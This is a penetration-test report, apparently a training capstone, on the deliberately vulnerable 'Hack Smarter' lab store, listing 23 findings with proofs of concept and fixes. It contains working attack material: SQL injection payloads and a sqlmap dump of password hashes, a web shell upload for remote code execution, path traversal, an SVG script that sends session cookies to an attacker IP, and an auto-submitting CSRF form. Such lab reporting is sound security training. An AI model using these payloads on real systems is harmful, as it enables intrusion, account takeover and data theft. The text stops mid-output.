

# Capstone Challenge (Foundations of Web App Pentesting)

## Objective and Scope

The primary objective of this penetration test is to evaluate the security posture of the **Hack Smarter** e-commerce ecosystem. This assessment aims to identify, validate, and document vulnerabilities within the application layer, business logic, and server configuration.

The ultimate goal is to provide actionable intelligence that would allow a development team to remediate flaws and harden the application against future attacks.

## Scope of Work

**In-Scope Assets:**

- **Domain:** `hacksmarter.hsm`
- **User Roles:** Testing shall be conducted from the perspective of an unauthenticated guest, a standard registered user, and an escalated administrator.

**Credentials:**

```
admin:admin123
user:password
```

Append the received IP in `/etc/hosts`.

```bash
10.1.78.153    hacksmarter.hsm
```

## Executive Summary

Between October 27th, 2026 to October 29th, 2026, a penetration test is conducted on Hack Smarter Store, the e-commerce ecosystem of Hack Smarter. The security assessment revealed critical level vulnerabilities allowed data exfiltration, session hijacking, and remote code execution. It is recommended for Hack Smarter to address the vulnerabilities as soon as possible to avoid losses.

## Attack Summary

The following table shows the performed steps in this penetration testing.

| Step | Performed Actions | Important Vulnerabilities Overview | Recommendation |
| --- | --- | --- | --- |
| 1: Reconnaissance | 1. Enumeration<br>2. Manually browsing with Burp Suite<br>3. Finding potential vulnerable functions | 1. PHP version disclosure in Curl response<br>2. Exposed `dev.hacksmarter.hsm` subdomain with `phpinfo` enabled<br>3. Directory Listing | 1. Mask PHP version disclosure in `X-Powered-By` header<br>2. Disable `phpinfo`<br>3. Disable directory listing |
| 2: Testing without login | 1. Testing Registration and login-related functions<br>2. Validating input sanitation through injections | 1. The product search function is vulnerable to SQL injection<br>2. Username Disclosure in login and registration pages.<br>3. IDOR in the product page | 1. Use prepare functions or perform input sanitation.<br>2. Return a general message<br>3. Label the product with a random label. |
| 3: Testing with the non-privileged account `user` | 1. Testing profile upload, changing user settings, interacting with community thread interaction, and purchasing products<br>2. Login session auditing | 1. `PHPSESSID` has `HttpOnly` as `false`, `Expires` to `Session`, `Secure` as `false`, and `SameSite` as `None`<br>2. Vulnerable XSS and HTML injection in multiple spots.<br>3. Client side control and validation in the product page.<br>4. No force reauthentication after changing email and password.<br>5. SSRF in URL profile upload | 1. Configure the `PHPSESSID` configurations<br>2. Sanitize user input<br>3. Perform the control and validation on the server side<br>4. Implement force log out after changing email or password<br>5. Disallow user to access to localhost or IP of the same network |
| 4: Testing with the privileged account `admin` | 1. Check for admin panel functionalities<br>2. Check for visibility of admin panel | 1. RCE through file upload in site logo upload | 1. Implement stricter file upload logic |
| 5: Conclusion | Documentation | N/A | N/A |

---

## Vulnerability Summary

| Severity | Count |
| --- | --- |
| Criticial | 2 |
| High | 9 |
| Medium | 10 |
| Low | 2 |
| Total | 23 |

---

## Functionalities

The below demonstrate the logic and implementation of the Hack Smarter Store, covering the basic business logic and user controls.

### Main Page

The main page shows some featured Products, and allow the user to change the language of the website.



### Buy Products

The store page offers more products to the user. It will display the products, including the ones that are not available for the user.


Click ‘view and buy’ will bring the user to the product page.


Users can then add the product to the cart.


Only a **logged user** can proceed to checkout and buy the product.


### Blogs

The blog page contains public accessible blogs from the Hack Smarter Team.


> ‘Read more’ is a hollow function.
> 

### Community Forum

The community Forum is also available for everyone.


Everyone can read the thread and the replies.


For a **logged user**, he can create a new thread.


It will ask for the title and the content of the thread.


**Logged users** can also reply to a thread.


### Login

The login function allows user to login to enjoy some of the additional services.


### Reset Password

A reset password function is provided for user who forgets their password.


The user can then enter the received reset code.

> Apparently, the recovery code logic is broken.
> 


### Registering an Account

The webpage allow user to register a brand new account.


### Providing Feedback

Users are also encourage to send feedback for the team to improve their service.


The submitted reviews are public to everyone.

### Updating Profile (Exclusive to login user)

A user can upload their avatar through a file upload or submitting a URL.


### Account Settings (Exclusive to login user)

A user can also change the username and password.


### Admin Panel (Exclusive to Admin)

The admin Panel displays some statistics and the system management. 


> Manage Users and Inventory Management are under maintenance.
> 

The panel allows the admin to change the Name and the Site logo.


The next section introduce the vulnerability findings exist in the system, follow up with a Proof of Concept (PoC) to demonstrate the input, and finally a suggest fix to patch the vulnerabilities. 

---

## Critical Findings

### Critical Finding 1: SQL Injection in Product Search

**Introduction**

In the product search bar, the `search` URL parameter is used to contain the user’s input and query the MYSQL database.

An attacker can input SQL injection queries without authentication and exfiltrate data, including the `user` table.

**PoC**

A simple test is to use a `'` to close the single quote in the query. It introduced an syntax error, indicating it is vulnerable to SQL injection.


The above result also leaked the Database Management System (DBMS) MYSQL. Knowing the DBMS can help the attacker to prepare for specific payload for data exfiltration.

To begin, the attacker can test for a simple payload `' or 1 = 1 -- -`. As 1 always equal to 1, the or statement is true and all entries in the current table are returned.


Using the `'ORDER BY 8;-- -` payload, the attacker learns that there are a total of 7 columns. 


Knowing the number of columns is important as UNION SELECT requires the two queries to have the same amount of columns.

`' UNION SELECT 1,2,3,4,5,6,7; -- -` reveals the second, third, and fourth columns reflect in the result.


With the information, the attacker can then find the table name of the table he is interested, using `' UNION SELECT 1,2,TABLE_NAME,4,5,6,7 FROM INFORMATION_SCHEMA.TABLES; -- -`, it will return all the table names.


He then lock at the `user` table.


He can learn the column names using the following query `' UNION SELECT 1,2,COLUMN_NAME,4,5,6,7 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users'; -- -` 


With the above information, the attacker can then dump the whole `users` table.

The payload will be `' UNION SELECT 1,username,CONCAT(password,  ' | ' ,email) ,4,5,6,7 FROM users; -- -`


Alternative, the attacker can use `sqlmap`  to automate the attack.

```bash
└─$ sqlmap -r request.txt --dbms mysql --risk 3 --level 3 --dump
...
web server operating system: Linux Debian
web application technology: Apache 2.4.56, PHP 8.0.30
back-end DBMS: MySQL >= 5.0.0
[23:42:32] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[23:42:32] [INFO] fetching current database
[23:42:32] [INFO] fetching tables for database: 'hacksmarter'
[23:42:32] [INFO] fetching columns for table 'users' in database 'hacksmarter'
[23:42:32] [INFO] fetching entries for table 'users' in database 'hacksmarter'
Database: hacksmarter
Table: users
[3 entries]
+----+-----------------------+----------+--------------------------------------------------------------+---------------------+----------+-----------------------------------------+
| id | email                 | is_admin | password                                                     | reg_date            | username | profile_pic                             |
+----+-----------------------+----------+--------------------------------------------------------------+---------------------+----------+-----------------------------------------+
| 1  | admin@hacksmarter.hsm | 1        | $2y$10$0qqqCEmhLxypZeNzV6qgBO0oufGn1FTuoJ38TcPIQxnq3VwYHofgq | 2026-01-28 21:31:30 | admin    | assets/img/default.jpg                  |
| 2  | user@hacksmarter.hsm  | 0        | $2y$10$qQYjOJ.6xUF7XbqiFlDDBOC0mUKA88LtKSF8.D6HSvVU7wME5bb8u | 2026-01-28 21:31:30 | user     | assets/img/default.jpg                  |
| 3  | test@gmail.com        | 0        | $2y$10$U3fLYOl4aYHnnNbBO7ch6eGFcUn.2ym8kuCacB4ypH7zphQb.FyLq | 2026-10-22 11:07:22 | test     | uploads/avatars/imported_1792680302.jpg |
+----+-----------------------+----------+--------------------------------------------------------------+---------------------+----------+-----------------------------------------+

Database: hacksmarter
Table: forum_posts
[2 entries]
+----+---------+--------------------------+--------------------------------------------+---------------------+
| id | user_id | title                    | content                                    | created_at          |
+----+---------+--------------------------+--------------------------------------------+---------------------+
| 1  | 1       | Welcome to the new forum | Feel free to discuss security topics here. | 2026-01-28 21:31:30 |
| 2  | 2       | test                     | test                                       | 2026-10-27 13:04:16 |
+----+---------+--------------------------+--------------------------------------------+---------------------+

Database: hacksmarter
Table: products
[6 entries]
+----+-----------------+---------+--------------------------------+-------------+--------------------------------------------------------------------+------------------------+
| id | image           | price   | name                           | is_released | description                                                        | is_available_in_region |
+----+-----------------+---------+--------------------------------+-------------+--------------------------------------------------------------------+------------------------+
| 1  | placeholder.jpg | 49.99   | Hack Smarter Hoodie            | 1           | Stay warm while you breach firewalls. 100% Cotton, blackest black. | 1                      |
| 2  | placeholder.jpg | 120.00  | Mechanical Keyboard            | 1           | Blue switches for the loudest typing experience possible.          | 1                      |
| 3  | placeholder.jpg | 85.00   | Encrypted USB Drive            | 1           | Hardware encryption to keep your payloads safe.                    | 1                      |
| 4  | placeholder.jpg | 65.00   | WiFi Deauther Watch            | 1           | Disconnect annoyance with style. Wearable packet injection.        | 1                      |
| 5  | placeholder.jpg | 169.00  | Flipper Zero (Restricted)      | 1           | The ultimate multi-tool for geeks. RESTRICTED ITEM.                | 0                      |
| 6  | placeholder.jpg | 9999.00 | Quantum Decryptor (Unreleased) | 0           | Decrypts anything instantly. FUTURE TECH.                          | 1                      |
+----+-----------------+---------+--------------------------------+-------------+--------------------------------------------------------------------+------------------------+

Database: hacksmarter
Table: forum_replies
[1 entry]
+----+---------+-----------+---------+---------------------+
| id | user_id | thread_id | content | created_at          |
+----+---------+-----------+---------+---------------------+
| 1  | 2       | 2         | hi      | 2026-10-27 13:05:06 |
+----+---------+-----------+---------+---------------------+
```

The attacker now obtained all the password hashes. He can perform an offline attack on them and compromising the accounts.

**Fixes**

A better way is to use Prepared Statements. The search function relies on the product name provided by the user.

```sql
$stmt = $mysqli->prepare("SELECT name, description, price FROM products WHERE name LIKE ?");
$search = '%' . $_GET['search'] . '%';
$stmt->bind_param("s", $search);
$stmt->execute();
```

The `setString` function always treat the user input as a string instead of an expression. So SQL injection payload like `'` will not be evaluated.

Also, edit the `php.ini` file to include the following lines:

```sql
display_startup_errors = Off
display_errors = Off
```

It avoids MYSQL to output error messages that help the attack in learning the underlying DBMS.

---

### Critical Finding 2: Remote Code Execution (RCE) in Site Logo Upload

**Introduction**

Under the global settings in the admin panel, the loose file upload check allows an attacker to upload a web shell and execute arbitrary command.

**PoC**

An attacker can freely modify the requests. Below, the attacker try to figure out the content type by modifying the content of the PNG file.


The ‘test’ PNG file failed the check. The attacker can deduce it is a magic-byte check. 

He can simply append some legit PNG byte before the web shell payload.


The payload is accepted and stored under `uploads/logos`

The attacker can then run `whoami` to confirm RCE.


it shows `www-data`, which is a low-privilege account. If it is running as `root`, the attacker can read the `/etc/shadow` file and attempt to recover the password of `root` using a offline attack.

Through the web shell, the attacker is able to read PHP files using the `cat` command. For example, the `profile.php` file that handles profile upload.


The attacker can also read `db.php` under the `config` directory, and he learns the credentials of the `user` and `admin` account.


**Fix**

Using the web shell, we are able to read the source code of  `settings.php`.

```php
<?php
session_start();

// --- ACCESS CONTROL ---
// Only admins allowed
if (!isset($_SESSION['user_id']) || $_SESSION['is_admin'] != 1) {
    header("Location: ../login.php");
    exit();
}

$message = "";
$upload_dir = "../uploads/logos/";

// Handle Form Submission
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    
    // 1. Fake "Site Name" update (just to make the page look real)
    if (isset($_POST['site_name'])) {
        // In a real app, this would update a DB. Here we just pretend.
    }

    // 2. FILE UPLOAD LOGIC (VULNERABLE)
    if (isset($_FILES['site_logo']) && $_FILES['site_logo']['error'] == 0) {
        
        $target_file = $upload_dir . basename($_FILES["site_logo"]["name"]);
        $imageFileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));
        
        // VULNERABILITY: 
        // We use getimagesize() to validate if it's an image.
        // This checks "Magic Bytes" (file header). 
        // It does NOT prevent a .php file from being uploaded if it has image headers.
        $check = getimagesize($_FILES["site_logo"]["tmp_name"]);
        
        if($check !== false) {
            // It "looks" like an image, so allow the upload
            if (move_uploaded_file($_FILES["site_logo"]["tmp_name"], $target_file)) {
                $message = "<div class='alert success'>Settings updated! Logo uploaded successfully to: <strong>" . htmlspecialchars($target_file) . "</strong></div>";
            } else {
                $message = "<div class='alert error'>Sorry, there was an error uploading your file. Check folder permissions.</div>";
            }
        } else {
            $message = "<div class='alert error'>Security Alert: The file you uploaded is not a valid image.</div>";
        }
    }
}
```

The current application relies on `getimagesize()` to check the validity of the upload files. 

Implement [server-side MIME type check](https://www.php.net/manual/en/features.file-upload.php) can prevent the RCE.

```php
    // DO NOT TRUST $_FILES['upfile']['mime'] VALUE !!
    // Check MIME Type by yourself.
    $finfo = new finfo(FILEINFO_MIME_TYPE);
    if (false === $ext = array_search(
        $finfo->file($_FILES['site_logo']['tmp_name']),
        array(
            'jpg' => 'image/jpeg',
            'png' => 'image/png',
            'gif' => 'image/gif',
        ),
        true
    )) {
        throw new RuntimeException('Invalid file format.');
    }
```

`FILEINFO_MIME_TYPE` derive the MIME type from the content instead of file extension, and ensure the successful upload is a JPEG, a PNG, or a GIF.

---

## High Findings

### High Finding 1: Session Fixation

**Introduction**

The session before and after the login are the same.

Before:


After:


An attacker can send his session (`PHPSESSID`) to the victim with phishing. When the victim logs in to that session, the attacker has access to the victims account. 

**PoC**

As an attacker, I first obtain a `PHPSESSID` by browsing the website.


Then we can craft a URL with that session and send to the victim: `http://hacksmarter.hsm/?PHPSESSID=a1663a7945912a69cf5d6999544fa7bd`.

When the user clicked the link, notice that he has the same `PHPSESSID` as the attacker.


And when the victim logins as `test`, the `PHPSESSID` does not change.


When the attacker refresh the page, he logs in as `test` as well.


The victim do not realize the attack if he does not pay attention to the `PHPSESSID` parameter, and it can make the attack very sneaky.

**Fix**

When the victim logs in, he should be assigned with a new session.

Checking the `/includes/auth.php` we found that we do not generate a new ID after login

```php
// VULNERABILITY: Session Fixation
// We start the session, but we do NOT regenerate the Session ID upon login.
// This means the ID remains the same before and after authentication.
session_start();
```

in the `login.php`, it redirects after successful login.

```php
  if (password_verify($password, $user['password'])) {
            
            // Login Success
            $_SESSION['user_id'] = $user['id'];
            $_SESSION['username'] = $username;
            $_SESSION['is_admin'] = $user['is_admin'];
            $_SESSION['email'] = $user['email'];
            $_SESSION['profile_pic'] = $user['profile_pic'];

            // EXECUTE OPEN REDIRECT
            // The user is redirected to whatever was in the 'next' parameter.
            header("Location: " . $next_url);
            exit();

        } 
```

A better way is to include the `session_regenerate_id` after the `password_verify` check, so the logged user will receive a new session.

```php
session_regenerate_id(true); 
```

---

### High Finding 2: Insecure Cookies

**Introduction**

There are several problems regarding the cookie


1. The `Expires` set to Session, which means that the as long as the cookie is stored in the browser, it is valid
2. `HttpOnly` set to false. JavaScript can access to the session cookie.
3. `Secure` is false. It is set to false because the website is HTTP (without TLS encryption), which is no good

Previously, we can already steal a cookie with session fixation, so as long as the victim still open the browser, the attacker can use that session.

**PoC**

A very simple PoC is to type `alert(document.cookie)` in the console.


The `PHPSESSID` will be displayed in the alert message.

As an attacker, he can chain with XSS and craft a payload that send the cookie to a website he owns. 

**Fix**

The root cause is located at `/includes/auth.php`. 

```php
// VULNERABILITY: Insecure Session Configuration
// 1. Missing 'cookie_httponly' => true (Allows XSS to steal cookies)
// 2. Missing 'cookie_secure' => true (Allows sending cookie over HTTP)

...
// VULNERABILITY: No Session Timeout
// A secure application would check a timestamp here.
// e.g., if (time() - $_SESSION['last_active'] > 1800) { logout(); }
// We have no such check. The session lives as long as the cookie does.
```

We can uncomment to apply the changes.

```php

'cookie_httponly' => true 
'cookie_secure' => true 

if (time() - $_SESSION['last_active'] > 1800) { logout(); }
```

Now, the cookie:

1. Will not be accessible to JavaScript (free from XSS)
2. Send only if HTTPS is supported (HTTPS needs to be implemented)
3. logs out after 30 mins

Attackers can hardly steal the sessions anymore.

---

### High Finding 3: Path Traversal and Local File Inclusion in Language

**Introduction**

Hack Smarter Store supports switching language using the HTTP parameter `lang`. An attacker can use path traversal (`../`) to escape the designed directory, and read local files existed in the server.

**PoC**

The website support English and Espanol, which is powered by `en.php` and `es.php` respectively inside the `/includes/lang` directory.


An attacker can use `../` to reach the parent directory using path traversal. Chaining multiple together can reach to root (`/`) and read sensitive files. For example, the `/etc/passwd` file.


The attacker can read the `/config/db.php` and compromise the accounts.

**Fix**

In `index.php`, we found there is no checking 

```php
// Check if user selected a language
if (isset($_GET['lang'])) {
    $lang_file = $_GET['lang'];
}

// VULNERABILITY: Path Traversal / LFI
// We simply append the user input to the directory path.
// There is no check to ensure the file is actually inside 'includes/lang/'.
// Attack: ?lang=../../../../etc/passwd
// The resulting path becomes: includes/lang/../../../../etc/passwd -> /etc/passwd
```

We can implement a white list approach.

```php
$allowed_langs = [
    'en' => 'en.php',
    'es' => 'es.php',
];

$lang = $_GET['lang'] ?? 'en';

if (array_key_exists($lang, $allowed_langs)) {
    $lang_file = '/var/www/html/hacksmarter.hsm/includes/lang/' . $allowed_langs[$lang];
    include $lang_file;
} else {
    // Default fallback
    include '/var/www/html/hacksmarter.hsm/includes/lang/en.php';
}
```

The user can only enter `en` or `es`, no more path traversal.

---

### High finding 4: Insecure Email and Password Changes

**Introduction**

Changing the email and Password does not require the old password. This makes the the session hijacking attack much more effective as the attacker can change the email and password after launching the attack.

**PoC**

The attacker only needs to know the CSRF token when changing the password, which he knows if he launched a successful session hijacking attack.


So it is very easy for the attacker to takeover the victim’s account.

**Fix**

In `update_profile.php`, check the `current_password` to make the takeover much harder.

---

### High Finding 5: No Re-authentication After Changing the Email or Password

**Introduction**

After changing the username and password, the session is still valid and no re-login is required. This make the session hijacking method to be more effective as the victim cannot force the attacker out of this session through change account credentials.

**PoC**

After Changing the email and password, there is no redirection nor session expire, I can still navigate around.


**Fix**
Force the session to expire when the email or the password is changed. The user should re-authenticate himself after the change.

---

### High Finding 6: SSRF in URL Profile Import

**Introduction**

The URL Profile Import function take a URL without proper validation, allowing an attacker to submit a URL containing `127.0.0.1` ,`localhost`, or even the `file://` protocol,  access to local files and potentially perform Port Scan. 

**PoC**

In the URL, the attacker can submit `file:///etc/passwd` to retrieve the `/etc/passwd` as a PoC.


The attacker can also fuzz for the opening ports using Caido.


However, only port 80 show a positive result. Port 22 is indicated with ‘cannot be reached’.


---

### High Finding 7: Stored XSS across the Web Application

**Introduction**

In the community forum and the feedback pages, inputs are not well sanitized, and is vulnerable to XSS.

**PoC**

In the thread creation, we can create a thread with a simple XSS payload.


The moment it get refresh, the title XSS is triggered.


When I enter the thread, both XSS are triggered.


The Reply is also vulnerable to XSS


The Customer Feedback Section is also vulnerable.


The dangerous part of XSS is that it can chain with the insecure cookie, and it can send the session cookie to the attacker.

**Fix**

Enable `HttpOnly` to prevent cookie exfiltration. Also encode the special characters so that the inputs will be treated as text instead of code.

---

### High Finding 8: Stored XSS through SVG Profile Upload

**Introduction**

The Profile Upload function allows SVG files. An attacker can include JavaScript to achieve XSS.

**PoC**

Unlike the Site logo (Magic bytes checking), the profile upload check the filename by checking the extension (I forget to delete the magic bytes…) 


So the web forces the file to ends with a image extension, so the attacker can’t upload a web shell successfully.


However, the attacker can upload a SVG file with embedded JavaScript. For example, he can send to `10.200.97.146` (attacker IP) with the cookie included.

```bash
<svg xmlns="http://www.w3.org/2000/svg">
  <script>fetch('http://10.200.97.146:8000/'+document.cookie)</script>
</svg>
```

You can see it passes the check.


When the user click View the SVG in full Size, it will load and execute the script.


So the attacker can obtain the session cookie of the victim.

```bash
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.200.97.146 - - [28/Oct/2026 00:35:34] code 404, message File not found
10.200.97.146 - - [28/Oct/2026 00:35:34] "GET /PHPSESSID=eb9c14e79b9468bf2d11c36116455154 HTTP/1.1" 404 -

```

**Fix**

Enable `HttpOnly` helps mitigating the issue. To be more secure, consider stripping away the `<script>` tag.

---

### High Finding 9: CSRF Bypass in Email and Password Update

**Introduction**

The original request to `update_profile.php` is using the POST method. By using the GET method, the web app skips the authorization of the CSRF token, making it vulnerable to CSRF.

**PoC**

To stimulate the attack, we can switch to the GET method, include the parameters as GET parameters, and include a dummy `csrf_token`. The web app accepts the `null` token.


We can also write a simple HTML code to conduct the CSRF. Below, I even omitted the `csrf_token`

```php
<!DOCTYPE html>

<header>

<body>

<form action='http://hacksmarter.hsm/update_profile.php' method='GET' id='form'>
<input type='hidden' name='action' value='update'>
<input type='hidden' name='email' value='test2@gmail.com'>
<input type='hidden' name='password' value='test2'>
<input type='submit'>
</form>

</body>

<script>
document.getElementById('form').submit();
</script>

</html>
```

When the user enter the malicious website, it will send a request with the `PHPSESSID` session cookie, and request for an update.


So all the attacker needs is a phishing email, or a mis-click from the user, and his email and password is changed.

**Fix**

In `update_profile.php`, I found why the attack works, because it only checks for POST requests.

```php
    // VULNERABILITY 1: CSRF Bypass
    // The developer tried to protect against CSRF by checking the token.
    // However, the check ONLY runs if the method is POST.
    // An attacker can simply send a GET request:
    // update_profile.php?action=update&email=hacker@evil.com
    // Since it's not POST, the security check is skipped, but the update logic below still runs!
    
    if ($_SERVER['REQUEST_METHOD'] == 'POST') {
        if (!hash_equals($_SESSION['csrf_token'], $_POST['csrf_token'])) {
            die("Invalid CSRF Token");
        }
    }
```

So all it needs is to include the GET method as well.

---

## Medium Findings

### Medium Finding 1: Impersonation with IDOR in Community Forum

> I overlook this one, which I found after reading the excellent writeup from [**Liam Smydo**](https://liamsmydo.com/projects/hacksmarter-capstone/#h6--insecure-direct-object-reference-idor--forum-post-impersonation).
> 

**Introduction**

In the Community Forum, a user can create threads governed by the `user_id`, which is a hidden input in the creation form. An Attacker can easily tamper it to someone else.


**PoC**

To simulate, the attacker can use his account (`test` has the `user_id` 3) to make a request, and then change it to another number (e.g. `admin` which has `user_id` 1). The Server accepts the modified `user_id` 1, which is admin.


Refresh the page, and we found the Author is `admin`.


An attacker can combine with XSS to impersonate `admin` to post a XSS thread to steal the session cookie, but a better way is to include the XSS payload in the title, because the user will receive and execute the payload once they loaded into the Community Forum, so I put this attack in a lower spot.

**Fix**

One of a way for mitigation is to implement with `session_regenerate_id`, the server can then derive the appropriate `user_id` from that session. 


### Medium Finding 2: HTML Injection across the Web App

**Introduction**

The HTML Injection happens with the XSS. An attacker can inject HTML elements in the community forum and feedback page.

**PoC**

An attacker can inject H1 tag into the webpage.

Forum:


Feedback:


The attacker can also implement an `iframe`


When the user click the post, it will show the iframe with the previous CSRF HTML page. In the background, it will send the email and password request.


Here is how it looks like to the victim.


The attack works similarly as the Store XSS, but in a roundabout way.

**Fix**

Encode the HTML special characters (e.g. `<`, `>`) from the input can stop this input completely.

---

### Medium Finding 3: Client Side Control and Restriction on Products

**Introduction**

The disable control only enables in the client side. An attacker can modify the DOM and purchase the restricted item.

**PoC**

Flipper Zero is disabled.


It is disabled using `disabled: none` and `display:none`.


An attacker can get rid of the restrictions by modifying the attributes.


Inside the product page, there is another restrictions in the next page.


Again, the attacker can just bypass them easily.


As a result, the attacker can buy the restricted item.


**Fix**

Implement the restriction in the server side, and disallow unauthorized user from purchasing the product.

---

### Medium Finding 4: Open Redirect in the Login page

**Introduction**

The `next` parameter in the login page is used to redirect the user to the corresponding page after login. However an attacker can send the login page with a tampered next parameter to the victim, and redirect him to a malicious site after a successful login.

**PoC**

A Login page request is shown below:


An attacker can set up a fake website using Python `http.server` module and then deliver to the victim.

For example, he can send the victim `http://hacksmarter.hsm/login.php?next=http://10.200.97.146:8000/`


And then after he logins, he will be redirect to the attacker’s site.


To make it more powerful, an attacker can set up a fake login panel, and lurk the victim to enter their credentials.

**Fix**

Fix the `next` parameter so that the attacker cannot modify it. Only allow the server to control the flow of redirection.

---

### Medium Finding 5: Directory Listing and Build log leakage

**Introduction**

Hack Smarter Store have directory listing on directories, enable attacker to learn and read the files. Moreover, the `/test/build_log.txt` is leaked, revealing the `dev.hacksmarter.hsm` subdomain.
**PoC**

An attacker can perform enumeration to learn the file existed in the web application.

```php
└─$ feroxbuster -u http://hacksmarter.hsm -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt                                                                                          

...

200      GET       26l       74w      874c http://hacksmarter.hsm/test/build_log.txt

[####################] - 17m   441133/441133  0s      found:25      errors:10     
[####################] - 17m   220545/220545  212/s   http://hacksmarter.hsm/ 
[####################] - 4s    220545/220545  56033/s http://hacksmarter.hsm/assets/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 4s    220545/220545  52914/s http://hacksmarter.hsm/assets/js/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 4s    220545/220545  51626/s http://hacksmarter.hsm/uploads/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    220545/220545  478406/s http://hacksmarter.hsm/uploads/avatars/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 17m   220545/220545  212/s   http://hacksmarter.hsm/admin/ 
[####################] - 0s    220545/220545  484714/s http://hacksmarter.hsm/test/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    220545/220545  467256/s http://hacksmarter.hsm/includes/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    220545/220545  465285/s http://hacksmarter.hsm/uploads/logos/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 1s    220545/220545  224817/s http://hacksmarter.hsm/includes/lang/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    220545/220545  466268/s http://hacksmarter.hsm/api/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    220545/220545  470245/s http://hacksmarter.hsm/api/products/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    220545/220545  471250/s http://hacksmarter.hsm/api/forum/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    220545/220545  483651/s http://hacksmarter.hsm/config/ => Directory listing (add --scan-dir-listings to scan)   
```

From the result, the attacker knows the `/test/build_log.txt` and the directory listing enabled.

 The `build_log.txt` reveals the subdomain `dev.hacksmarter.hsm`.


Directory Listing is also available on directories.


The attacker can attempt to read these files. If it is a PHP file, he can chain with the LFI or RCE attack to read the content.

**Fix**

Disable directory listing as it increase the attack risk. Also, remove `build_log.txt`.

---

### Medium Finding 6: PHP Version Disclosure in Response and Subdomain

**Introduction**

The Curl response and phpinfo in `dev.hacksmarter.hsm` leak the PHP version. The version is vulnerable to PHP to Shell (PHP2SHELL), allowing the attacker to execute arbitrary command.

**PoC**

Using Curl, the attacker found the website is powered by `PHP/8.0.30`.

```bash
└─$ curl -I http://hacksmarter.hsm
HTTP/1.1 200 OK
Date: Tue, 27 Oct 2026 13:56:13 GMT
Server: Apache/2.4.56 (Debian)
X-Powered-By: PHP/8.0.30
Set-Cookie: PHPSESSID=57d4e2b91cd2cba77dc7b2c8e746d761; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
```

Another path to find the version number is through the `dev.hacksmarter.hsm`.

The sub-domain can also be found through enumeration.

```bash
└─$ ffuf -u http://hacksmarter.hsm -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -H 'Host: FUZZ.hacksmarter.hsm' -fs 6179                                                             
                                                                                                                                                                                                                                            
        /'___\  /'___\           /'___\                                                                                                                                                                                                     
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                                                                                                     
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                                                                                                    
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                                                                                                    
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://hacksmarter.hsm
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Header           : Host: FUZZ.hacksmarter.hsm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 6179
________________________________________________

dev                     [Status: 200, Size: 2206, Words: 425, Lines: 57, Duration: 230ms]
```

The subdomain has a PHP Configuration tools used for debugging.


And it is PHPInfo, which gives the attacker even more information.


The version disclosure helps attacker determine what vulnerability the webapp has. For example, it is  vulnerable to [php2shell](https://support.plesk.com/hc/en-us/articles/44397729587351-Vulnerability-CVE-2026-109618-and-CVE-2026-109619-PHP2Shell-Remote-code-execution-in-PHP-shipped-with-Plesk).

> I classify the version disclosure as medium because PHP2SHELL is not an intended vulnerability.
> 

**Fix**

1. Update PHP Version to patched version.
2. Disable phpinfo.
3. Mask the version in the `X-Powered-By` header.

---

### Medium Finding 7: Unrelease Product Leakage in API

**Introduction**

The publicly accessible API `/api/products/all.php` do not hide unrelease product, leaking sensitive data to the public.

PoC

Having Directory Listing enabled helps the attacker  to find the `all.php` file under the `api/products` directory.


It contains all the products.

```bash
└─$ curl http://hacksmarter.hsm/api/products/all.php|python -m json.tool
  % Total    % Received % Xferd  Average Speed  Time    Time    Time   Current
                                 Dload  Upload  Total   Spent   Left   Speed
100   1219 100   1219   0      0   2661      0                              0
[
    {
        "id": "1",
        "name": "Hack Smarter Hoodie",
